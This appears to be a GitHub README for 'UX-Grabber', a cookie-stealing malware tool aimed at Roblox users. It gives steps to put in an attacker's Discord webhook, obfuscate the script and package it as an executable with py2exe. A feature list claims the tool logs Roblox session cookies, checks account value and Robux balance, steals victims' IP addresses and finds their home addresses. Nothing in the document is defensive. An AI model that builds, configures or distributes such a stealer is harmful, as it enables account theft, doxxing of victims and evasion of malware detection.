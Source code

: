 <h1 align="center">
  UX-Grabber 🍪 
</h1>

# Instructions:

### Replace this

```py
webhook = "https://discord.com/api/webhooks/xxxxxxxxxxxxxxxxxxx/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
### For ur own webhook

#### Install py2exe
```bash
$ pip install py2exe
```

#### Obfuscation
```bash
$ python O1.py main.py
```

#### Run setup.py
```bash
$ python setup.py py2exe
```

#### Install requirements
```bash
$ pip install -r requirements.txt
```

- Features.
  - Log Roblox Cookies ✔
  - Check if they are premium ✔
  - Check Account Age ✔
  - Steals IP ✔
  - Finds their address ✔
  - Check their robux balance ✔
  - Obfuscation ✔
  - And more ✔
